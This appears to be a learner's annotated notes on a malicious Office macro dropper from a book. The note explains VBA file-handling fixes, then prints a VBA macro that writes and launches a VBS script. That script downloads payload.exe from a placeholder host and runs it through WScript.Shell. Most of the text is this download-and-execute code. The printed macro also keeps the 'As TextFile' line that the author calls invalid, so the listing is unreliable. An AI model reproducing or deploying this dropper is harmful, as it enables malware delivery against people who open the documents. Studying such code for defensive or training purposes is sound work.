 In the book the original macro code doesn't work for several reasons. Below I go more into detail on how this macro works. 
 
 Dim is used to specify a variable and what type it is. PayLoadFile is an integer because the FreeFile function called earlier is used to find
 a available file name number and use that to open the file. https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/freefile-function
 
 Reading through Microsofts guide on Open call. We can see that TextFile is invalid in line 6, you either have to give a number such as #3 or put in
 PayloadFile which will be a numeral thanks to FreeFile function.
 
 https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/open-statement
 
 Another issue I had was with the VBS script below. You will need to put double quotes around quotes in the actual code. This is
 because the VBA Macro won't include the quotes when sending it to the file. for example myPath, "\\" should be mypath, ""\\"". 

VBA Macro

Sub WritePayload()
  Dim PayLoadFile As Integer
  Dim FilePath As String
  FilePath = "C:\temp\payload.vbs"
  PayloadFile = FreeFile
  Open FilePath For Output As TextFile
  Print #PayLoadFile, "VBS Script Line 1"
  Print #PayLoadFile, " VBS Script Line 2"
  Print #PayLoadFile, " VBS Script Line 3"
  Print #PayLoadFile, " VBS Script Line 4"
  Close PayloadFile
  Shell "wscript c:\temp\payload.vbs"
End Sub

VBS Script

What it does is create an object download the file. and then use wsshell to execute it. Overall the macro creates the vbs, and creates the script. 
Macro executes script in shell. Our second stage takes over which is seen in the download of payload.exe in the vbs script, and execution through wsshell

HTTPDownload "http://www.wherever.com/files/payload.exe", "C:\temp"
Sub HTTPDownload( myURL, myPath )
  Dim i, objFile, objFSO, objHTTP, strFile, strMsg
  Const ForReading = 1, ForWriting = 2, ForAppending = 8
  Set objFSO = CreateObject( "Scripting.FileSystemObject" )
  If objFSO.FolderExists( myPath ) Then
    strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev(myURL, "/" ) + 1 ) )
  ElseIf objFSO.FolderExists( Left( myPath, InStrRev( myPath, "\") - 1 ) ) Then
    strFile = myPath
  End If
  Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
  Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
  objHTTP.Open "GET", myURL, False
  objHTTP.Send
  For i = 1 To LenB( objHTTP.ResponseBody )
  objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
  Next
  objFile.Close( )
  Set WshShell = WScript.CreateObject("WScript.Shell")
  WshShell.Run "c:\temp\payload.exe"
End Sub

